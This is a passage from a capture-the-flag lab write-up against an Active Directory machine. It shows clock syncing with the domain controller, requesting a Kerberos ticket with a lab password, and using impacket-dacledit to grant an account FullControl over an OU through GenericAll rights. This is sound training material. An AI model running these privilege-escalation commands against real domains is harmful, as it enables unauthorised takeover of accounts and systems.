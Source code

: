 Let's sync the time on Kali with the target

Install `ntpdate`: `apt -y install ntpdate`

Turns out the time on Kali was 885 seconds ahead of the target

```console
root@kali:~# ntpdate -q dc01.infiltrator.htb
2024-12-24 12:41:39.610084 (+0800) -885.953455 +/- 0.002572 dc01.infiltrator.htb 10.10.11.31 s1 no-leap
```

Disable NTP on Kali and sync the time with the target

```console
root@kali:~# timedatectl set-ntp 0

root@kali:~# ntpdate dc01.infiltrator.htb
2024-12-24 12:41:39.671106 (+0800) -885.953418 +/- 0.002733 dc01.infiltrator.htb 10.10.11.31 s1 no-leap
CLOCK: time stepped by -885.953418

root@kali:~# ntpdate -q dc01.infiltrator.htb
2024-12-24 12:41:39.736502 (+0800) -0.000016 +/- 0.002534 dc01.infiltrator.htb 10.10.11.31 s1 no-leap
```

`getTGT` works after the time sync

```console
root@kali:~# impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!' -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in d.anderson.ccache

root@kali:~# export KRB5CCNAME=d.anderson.ccache
```

### 5.2. Edit ACL of `MARKETING DIGITAL` to grant `Full Control` to `d.anderson`

- Utilize the `GenericAll` permissions to modify the ACL of the `MARKETING DIGITAL` OU
- This allows `d.anderson` full control on accounts in the OU, effectively bypassing any previous restrictions imposed on direct access

```console
root@kali:~# impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb/d.anderson' -k -no-pass -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20241226-141003.bak
[*] DACL modified successfully!
```
